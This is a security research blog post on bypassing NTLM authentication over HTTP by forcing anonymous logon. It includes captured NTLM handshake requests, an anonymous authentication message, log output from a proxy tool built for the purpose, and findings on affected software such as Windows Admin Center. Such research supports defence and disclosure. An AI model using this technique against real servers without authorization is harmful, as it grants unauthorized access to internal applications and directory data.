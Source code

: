 +++
title = "Bypassing NTLM auth over HTTP"
description = "Exploring the so called NT ANONYMOUS_LOGON user through HTTP endpoints"
tags = [
"howto",
"research",
"ntlm",
"web",
]
date = "2022-03-06 17:00:00"
categories = [
"Research",
"Exploration",
]
keywords = [
"ntlm",
"howto",
"research",
"anonymous",
]
image = "cover.png"

+++


Exploring the so-called NTLM ANONYMOUS_LOGON user through HTTP endpoints.
<!--more-->


# Some background

Through the years NTLM authentication has been used in various protocols as a convenient way
to authenticate on a Windows network :

- SMB usually for file sharing
- RDP
- NNS an "authenticated" TCP stack for .NET applications
- HTTP


The NTLM authentication usually takes place in 3 steps :

```text
CLIENT Sends a negotiation message --------------------> SERVER
CLIENT <-------------------- A challenge is given by the SERVER
CLIENT Sends a challenge response (creds) -------------> SERVER
```

NTLM versions (1/2) and various negotiation flags will determine how the authentication is *"encrypted"* between
the server and the client.



Btw [http://davenport.sourceforge.net/ntlm.html]([http://davenport.sourceforge.net/ntlm.html]) is a must-read if you're getting started with this protocol !

# NTLM over HTTP

In this article, we'll turn our attention to its usage over the HTTP protocol.

If you ever accessed your company's intranet after logging in with your workstation without being asked for credentials,
chances are NTLM was used in the background to authenticate to the remote webserver.

![Home](/ntlm_http/intra_example.png)

NTLM being a connection oriented protocol, HTTP keep-alive is used to keep the user authenticated through the same connection.

### Negotiation over HTTP
Let's look at how the protocol is actually working over the wire :

The client sends :
```http request
GET / HTTP/1.1
Host: 192.168.0.41:8080
```

The reply from the server indicates a `401 Unauthorized` but lets us know that NTLM authentication is available
through the `WWW-Authenticate` header :

```http request
HTTP/1.1 401 Unauthorized
Date: Sat, 04 Jun 2022 02:19:43 GMT
WWW-Authenticate: NTLM
Content-Length: 381
Content-Type: text/html; charset=iso-8859-1

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>401 Unauthorized</title>
</head><body>
<h1>Unauthorized</h1>
<p>This server could not verify that you
are authorized to access the document
requested.  Either you supplied the wrong
credentials (e.g., bad password), or your
browser doesn't understand how to supply
the credentials required.</p>
</body></html>
```

The client will then initiate a negotiation, over the same connection, using the `Authorization` header with the
`NTLM` prefix.

The base64 encoded string is a [Type 1 message](http://davenport.sourceforge.net/ntlm.html#theType1Message) letting the server know the client's capabilities :

```http request
GET / HTTP/1.1
Host: 192.168.0.41:8080
Authorization: NTLM TlRMTVNTUAABAAAAMYCI4AAAAAAoAAAAAAAAACgAAAAAAAAAAAAAAA==
```

### Server challenge over HTTP

The server still replies with a `401 Unauthorized` but this time provides a [Type 2 message](http://davenport.sourceforge.net/ntlm.html#theType2Message) in the `WWW-Authenticate`
header :

```http request
HTTP/1.1 401 Unauthorized
Date: Sat, 04 Jun 2022 02:19:43 GMT
Server: Apache
WWW-Authenticate: NTLM TlRMTVNTUAACAAAADAAMADgAAAA1gonilM550+1I+dYAAAAAAAAAAJIAkgBEAAAACgA5OAAAAA9EAE8ATQBBAEkATgACAAwARABPAE0AQQBJAE4AAQAMAEEAUABQAFMAMQA1AAQAGABkAG8AbQBhAGkAbgAuAGwAbwBjAGEAbAADACYAQQBQAFAAUwAxADUALgBkAG8AbQBhAGkAbgAuAGwAbwBjAGEAbAAFABgAZABvAG0AYQBpAG4ALgBsAG8AYwBhAGwABwAIAKFXn425d9gBAAAAAA==
Content-Length: 381
Content-Type: text/html; charset=iso-8859-1

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>401 Unauthorized</title>
</head><body>
<h1>Unauthorized</h1>
<p>This server could not verify that you
are authorized to access the document
requested.  Either you supplied the wrong
credentials (e.g., bad password), or your
browser doesn't understand how to supply
the credentials required.</p>
</body></html>
```

This header provides multiple information about the remote server, including it's operating system, DNS names, and which Domain it belongs to.

[Internal Information Disclosure using Hidden NTLM Authentication](https://medium.com/swlh/internal-information-disclosure-using-hidden-ntlm-authentication-18de17675666)
is a great read an often used by bug-hunters to find and disclose information about their target.

At this point, all HTTP clients gives you the choice to input a username and password, however, none of them are mentionning another
connection method.

Now let's think about this for a second :

- We know SMB can use NTLM
- We know SMB has an "Anonymous" feature

### Challenge response and auth over HTTP

Reading carefully [Microsoft documentation](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nlmp/b38c36ed-2804-4868-a9ff-8dd3182128e4) about NTLM
reveals an interesting bit of information that's usually NOT implemented by NTLM clients :

![Home](/ntlm_http/MS_NOTE_ANON.png)

Using Golang as a framework, we were able to implement the missing feature in an already existing NTLM library :

![Home](/ntlm_http/godiff.png)

Kudos to [@Bodgit](https://github.com/bodgit) for creating such a clean library !

#### Creating a client supporting Anonymous authentication

While modifying a browser for this particular case could be interesting, we instead decided to write a [proxy](https://github.com/LeakIX/NTLMAnonProxy) handling
the anonymous authentication workflow over HTTP :

```shell
$ ./NTLMAnonProxy-linux-amd64 127.0.0.1 9999
2022/06/04 04:18:06 Starting NTLM HTTP proxy on 127.0.0.1:9999
2022/06/04 04:18:41 http://192.168.0.41:8080/ : Intercepted request
2022/06/04 04:18:41 http://192.168.0.41:8080/ : Proposing NTLM, forcing ANONYMOUS auth
2022/06/04 04:18:41 http://192.168.0.41:8080/ : Received NTLM challenge
2022/06/04 04:18:41 http://192.168.0.41:8080/ : Sent NTLM AUTH
```

#### Checking the results

We know continue our request process over the same connection, and instead of providing a username and password, we implement
the anonymous authentication.

This has the effect of requesting Windows to authenticate as `ANONYMOUS LOGON/NT AUTHORITY`.

```http request
GET / HTTP/1.1
Host: 192.168.0.41:8080
Authorization: NTLM TlRMTVNTUAADAAAAAQABAEgAAAAAAAAASQAAAAAAAABIAAAAAAAAAEgAAAAAAAAASAAAABAAEABJAAAANYKJ4AAAAAAAAAAAAEkIUrOKi10Sk8ki/EV6PpA=
```

#### The application

What will happen next depends on the application using NTLM as authentication source.

If the application is configured to accept any login, `ANONYMOUS LOGON/NT AUTHORITY` will be considered as valid
authentication and various privileges can be granted to the end-user :

```http request
HTTP/1.1 200 OK
Date: Sat, 04 Jun 2022 02:19:43 GMT
X-UA-Compatible: IE=edge
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
X-Frame-Options: deny
Content-Length: 6901
Content-Type: text/html; charset=ISO-8859-1
```

And in this case we are indeed allowed access to the application (an intranet) as `ANONYMOUS LOGON/NT AUTHORITY`.


## Affected softwares

Various software are actually affected by this flaw.

One of the surprise we found was the **Windows Admin Center**, a piece of software used to administer Domains and
cluster of the web :

![Home](/ntlm_http/wma-auth1.png)

As it can be seen here, requests to Active Directory can be made, and all kinds of information can be retrieved through the API :

![Home](/ntlm_http/wma-auth2.png)

While we did notice some **Powershell endpoints** exposed, however Windows UAC acts as a last protection and requests a confirmation on
the local machine.

This flaw we rediscovered was in fact what we believe to be `CVE-2021-27066` has been fixed with a `403` page after
anonymous authentication.

Plenty of servers are still online with a older versions, and pen-testing your next LAN should definitely include this technique !

## Other protocols

Here we explored HTTP as we couldn't find any client allowing for such authentication and suspected it would yield results.

[NNS](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nns/aaa2adb8-34a0-461c-941e-fca1319c5a50) is another protocol often used by .NET applications and was in fact the source of the last [Veeam critical RCE vulnerability](https://twitter.com/ptswarm/status/1503360681978077185).

We will continue exploring other protocols for the same mis-configuration !
